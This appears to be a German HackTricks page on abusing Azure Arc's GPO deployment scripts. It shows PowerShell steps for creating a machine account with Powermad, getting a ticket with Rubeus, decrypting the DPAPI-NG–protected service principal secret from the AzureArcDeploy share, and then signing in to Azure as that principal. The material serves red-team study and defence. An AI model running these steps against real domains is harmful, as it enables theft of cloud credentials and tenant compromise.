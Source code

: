 # Az - Azure Arc Anfälliges GPO-Bereitstellungsskript

{% hint style="success" %}
Lernen Sie und üben Sie AWS-Hacking: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie und üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) **und** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **GitHub-Repositories senden.**

</details>
{% endhint %}

### Identifizierung der Probleme

Azure Arc ermöglicht die Integration neuer interner Server (beigetretene Domänenserver) in Azure Arc mithilfe der Gruppenrichtlinienobjekt-Methode. Um dies zu erleichtern, stellt Microsoft ein Bereitstellungstoolkit bereit, das für die Initiierung des Onboarding-Verfahrens erforderlich ist. Im ArcEnableServerGroupPolicy.zip-Datei finden sich die folgenden Skripte: DeployGPO.ps1, EnableAzureArc.ps1 und AzureArcDeployment.psm1.

Beim Ausführen des Skripts DeployGPO.ps1 werden die folgenden Aktionen ausgeführt:

1. Erstellt die Azure Arc Servers Onboarding GPO innerhalb der lokalen Domäne.
2. Kopiert das Onboarding-Skript EnableAzureArc.ps1 in den für den Onboarding-Prozess erstellten Netzwerkfreigabebereich, der auch das Windows-Installationspaket enthält.

Beim Ausführen dieses Skripts müssen Sysadmins zwei Hauptparameter bereitstellen: **ServicePrincipalId** und **ServicePrincipalClientSecret**. Darüber hinaus sind weitere Parameter wie die Domäne, der FQDN des Servers, der den Freigabebereich hostet, und der Freigabename erforderlich. Weitere Details wie die Mandanten-ID, die Ressourcengruppe und andere erforderliche Informationen müssen ebenfalls dem Skript bereitgestellt werden.

Ein verschlüsseltes Geheimnis wird im Verzeichnis AzureArcDeploy auf der angegebenen Freigabe mithilfe der DPAPI-NG-Verschlüsselung generiert. Das verschlüsselte Geheimnis wird in einer Datei mit dem Namen encryptedServicePrincipalSecret gespeichert. Hinweise darauf finden sich im Skript DeployGPO.ps1, wo die Verschlüsselung durch Aufruf von ProtectBase64 mit $descriptor und $ServicePrincipalSecret als Eingaben durchgeführt wird. Der Deskriptor besteht aus den Gruppen-SIDs Domain Computer und Domain Controller, wodurch sichergestellt wird, dass das ServicePrincipalSecret nur von den Sicherheitsgruppen Domain Controllers und Domain Computers entschlüsselt werden kann, wie in den Skriptkommentaren festgehalten.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Ausnutzen

Wir haben die folgenden Bedingungen:

1. Wir sind erfolgreich in das interne Netzwerk eingedrungen.
2. Wir haben die Möglichkeit, ein Computerkonto im Active Directory zu erstellen oder die Kontrolle darüber zu übernehmen.
3. Wir haben einen Netzwerkfreigabe entdeckt, die das Verzeichnis AzureArcDeploy enthält.

Es gibt mehrere Methoden, um ein Maschinenkonto in einer AD-Umgebung zu erhalten. Eine der häufigsten ist die Ausnutzung des Maschinenkontingents. Eine andere Methode besteht darin, ein Maschinenkonto durch verwundbare ACLs oder verschiedene andere Fehlkonfigurationen zu kompromittieren.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Nachdem ein Maschinenkonto erhalten wurde, ist es möglich, sich mit diesem Konto anzumelden. Wir können entweder das runas.exe-Kommando mit dem netonly-Flag verwenden oder pass-the-ticket mit Rubeus.exe durchführen.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Durch das Speichern des TGT für unser Computerkonto im Speicher können wir das folgende Skript verwenden, um das Dienstprinzipalgeheimnis zu entschlüsseln.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativ können wir [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) verwenden.

An diesem Punkt können wir die verbleibenden Informationen, die benötigt werden, um eine Verbindung zu Azure herzustellen, aus der ArcInfo.json-Datei sammeln, die auf demselben Netzwerkfreigabe wie die encryptedServicePrincipalSecret-Datei gespeichert ist. Diese Datei enthält Details wie: TenantId, servicePrincipalClientId, ResourceGroup und mehr. Mit diesen Informationen können wir Azure CLI verwenden, um uns als kompromittierter Serviceprinzipal anzumelden.

## Referenzen

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
